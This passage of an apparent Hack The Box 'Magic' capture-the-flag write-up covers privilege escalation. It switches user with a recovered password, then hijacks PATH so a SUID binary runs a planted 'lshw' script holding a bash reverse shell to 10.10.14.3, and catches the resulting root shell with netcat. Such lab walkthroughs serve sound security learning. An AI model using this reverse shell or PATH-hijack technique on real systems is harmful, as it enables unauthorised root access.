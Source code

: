 Now we have the password we use su to access user theseus.

```bash
www-data@ubuntu:/var/www/Magic$ su theseus
su theseus
Password: Th3s3usW4sK1ng

theseus@ubuntu:/var/www/Magic$ id
id
uid=1000(theseus) gid=1000(theseus) groups=1000(theseus),100(users)
```

## ROOT.TXT

On running linpeas I found a interesting file which had the suid bits set to `group users` and as we saw in the id command that's the group of our user theseus.

```bash
-rwsr-x--- 1 root users            22K Oct 21  2019 /bin/sysinfo (Unknown SUID binary)
```

Whenever I enumerate a executable the first thing I do is use ltrace and strace.

Using the ltrace command gave a ton of result. One of the first few lines was the executable using popen to open a file.

```bash
popen("lshw -short", "r") 
```

The executable is not using the full path of the file. This vulnerability can be used to our advantage.

I write a reverse shell in our user's home directory and give it execution permission.

```bash
theseus@ubuntu:~$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.3/9999 0>&1' > lshw
&1' > lshw!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.3/9999 0>&
theseus@ubuntu:~$ chmod +x lshw
chmod +x lshw
```

Now I add the path of our user's home diectory to the PATH variable and execute sysinfo to get a reverse shell as root .

```bash
theseus@ubuntu:~$ export PATH="/home/theseus:$PATH"
export PATH="/home/theseus:$PATH"
theseus@ubuntu:~$ echo $PATH
echo $PATH
/home/theseus:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
theseus@ubuntu:~$ cd /bin
cd /bin
theseus@ubuntu:/bin$ ./sysinfo
```

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/magic]
└─$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.185] 48286
root@ubuntu:/bin# id
id
uid=0(root) gid=0(root) groups=0(root),100(users),1000(theseus)
```
